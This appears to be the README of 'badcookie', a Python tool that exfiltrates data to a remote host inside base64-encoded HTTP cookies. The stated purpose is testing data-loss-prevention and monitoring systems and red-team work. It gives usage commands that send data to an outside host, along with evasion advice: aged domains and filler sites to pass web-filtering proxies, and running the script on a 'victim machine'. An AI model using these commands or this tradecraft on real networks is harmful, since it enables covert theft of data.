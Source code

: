 # Requirements
Python 2.7

### Libraries
* Requests

# Description
Badcookie exfiltrates data via base64 encoded HTTP cookies.

# Some use cases
* The script can be used for testing the effectiveness of data loss prevention systems.
* Outbound network traffic monitoring systems.
* Red Team / Blue team exercises e.g. see if the blue team can detect data exfiltraion.
* Penetration testing activities

#Things to keep in mind
* The script transmits data via http not https
* Base64 encoded data can be easily decoded
* Be mindful of the cookie size when transmitting data

#Usage
`badcookie.py <destination_host> <exfiltrated_data>`

`Example(1): badcookie.py 10.0.0.2 "very important data"`

`Example(2): badcookie.py www.secretsite.com "very important data"`

Use quotes if you plan to transmit data with whitespace


#Setting up the data exfiltration process

* To make the network traffic look convincing setup a site with a proper domain name. It can be a news, blog or any other site, so when you exfiltrate data the network traffic will look like normal web traffic going to a legitimate site. (atleast this is what we are trying to accomplish).
* Fill the site with real looking content.
* If you are testing systems where there is a web filtering proxy involved, try and use a  domain name which is more than a year old as web filtering proxies block new domains. In either case using an aged domain name will be beneficial.
* Avoid sending data using IP addresses.
* Enable  logging of http cookies in Apache ( you can use any server you like). The sample config file in [https://github.com/akbarq/badcookie/tree/master/apache_conf] can be used to enable cookie logging. 
* Place the **000-default.conf** file in **/etc/apache2/sites-enabled/** and restart Apache. You should now see a file called **“cookies.log”** in **/var/log/apache2**.
* Execute the badcookie script from the victim machine / network.
* After executing the script you should see the following log entry in cookies.log file. The log file shows the transmitted base64 cookie.

`10.0.0.2 - - [13/Jun/2015:18:48:17 -0500] "GET / HTTP/1.1" 200 3256 "-" "Mozilla/5.0 (Windows NT 6.3; WOW64; Trident/7.0; MDDCJS; :11.0) like Gecko" "dGVzdGluZw=="`

* You can now decode the base64 encoded data.

Please note that the above process is just a suggestion, you can setup the exfiltration process anyway you like.


